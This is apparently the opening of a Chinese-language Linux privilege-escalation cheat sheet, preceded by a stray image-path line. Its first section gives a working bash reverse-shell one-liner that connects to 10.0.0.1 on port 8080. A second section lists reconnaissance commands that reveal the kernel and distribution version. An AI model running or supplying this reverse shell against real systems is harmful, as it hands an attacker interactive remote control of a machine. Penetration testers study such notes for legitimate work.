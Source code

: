# GUN Linux 提权笔记

###     1.1 Shell反弹
``` sh
$ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
### 查看系统版本

``` sh
$ uname -a
$ cat /etc/*-release
$ cat /etc/issue
```
